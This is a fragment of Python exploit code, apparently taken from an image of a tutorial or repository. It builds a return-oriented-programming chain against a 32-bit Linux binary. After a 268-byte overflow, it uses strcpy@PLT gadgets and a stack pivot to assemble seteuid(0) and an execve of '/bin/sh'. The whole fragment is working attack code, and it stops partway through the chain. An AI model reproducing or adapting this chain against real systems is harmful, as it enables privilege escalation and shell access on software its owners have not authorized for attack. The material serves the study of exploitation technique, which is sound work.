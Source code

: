 ``` python
g4 = 0x080485b3
g5 = 0x08048380
g6 = 0x080485cd
g7 = 0x08048498
dummy = 0xdeadbeef
esi = 0x01020101
edi = 0x01020102
ebx = 0x3fc9c18               #ebx = 0x8049f3c - (esi*4) + 0xe0
off = 0xfffff530
#Custom Stack
#0x804a360 - Dummy EBP|seteuid@PLT|getuid@PLT|seteuid_arg|execve_arg1|execve_arg2|execve_arg3
cust_esp = 0x804a360          #Custom stack base address
cust_base_esp = 0x804a360     #Custom stack base address
#seteuid@PLT 0x80483c0
seteuid_oct1 = 0x8048143      #08
seteuid_oct2 = 0x8048130      #04
seteuid_oct3 = 0x8048355      #83
seteuid_oct4 = 0x80481cb      #c0
#getuid@PLT 0x80483b0
getuid_oct1 = 0x8048143       #08
getuid_oct2 = 0x8048130       #04
getuid_oct3 = 0x8048355       #83
getuid_oct4 = 0x80483dc       #b0
#seteuid_arg 0x00000000
seteuid_null_arg = 0x804a360
#execve_arg1 0x804ac60
execve_arg1_oct1 = 0x8048143  #08
execve_arg1_oct2 = 0x8048130  #04 
execve_arg1_oct3 = 0x8048f44  #AC 
execve_arg1_oct4 = 0x804819a  #60
#execve_arg2 0x804ac68
execve_arg2_oct1 = 0x8048143  #08
execve_arg2_oct2 = 0x8048130  #04 
execve_arg2_oct3 = 0x8048f44  #AC 
execve_arg2_oct4 = 0x80483a6  #68
#execve_arg3 0x00000000
execve_null_arg = 0x804a360
execve_path_dst = 0x804ac60   #Custom stack location which contains execve_path "/bin/sh"
execve_path_oct1 = 0x8048154  #/
execve_path_oct2 = 0x8048157  #b
execve_path_oct3 = 0x8048156  #i
execve_path_oct4 = 0x804815e  #n
execve_path_oct5 = 0x8048162  #s
execve_path_oct6 = 0x80483a6  #h
execve_argv_dst = 0x804ac68   #Custom stack location which contains execve_argv [0x804ac60, 0x0]
execve_argv1_oct1 = 0x8048143 #08
execve_argv1_oct2 = 0x8048130 #04 
execve_argv1_oct3 = 0x8048f44 #AC 
execve_argv1_oct4 = 0x804819a #60
strcpy_plt = 0x80483d0        #strcpy@PLT
ppr_addr = 0x080485ce         #popl %edi ; popl %ebp ; ret ;
#Stack Pivot
pr_addr = 0x080484a3          #popl %ebp ; ret ;
lr_addr = 0x08048569          #leave ; ret ;
#endianess convertion
def conv(num):
 return struct.pack("<I",num) #Junk
buf = "A"*268
buf += conv(g7)               #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6)               #pop esi; pop edi; pop ebp; ret;
```